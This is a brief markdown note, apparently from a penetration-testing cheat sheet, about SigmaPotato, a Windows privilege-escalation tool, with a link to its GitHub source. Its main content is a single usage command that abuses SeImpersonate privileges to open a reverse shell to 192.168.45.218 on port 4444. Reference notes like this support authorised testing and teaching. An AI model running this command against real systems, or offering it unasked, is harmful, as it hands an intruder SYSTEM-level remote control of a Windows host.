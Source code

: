 # Name
SigmaPotato

## Usage
```
# To abuse SeImpersonate Privileges to obtain reverse shell
.\sigmapotato.exe --revshell 192.168.45.218 4444
```

## Source
https://github.com/tylerdotrar/SigmaPotato
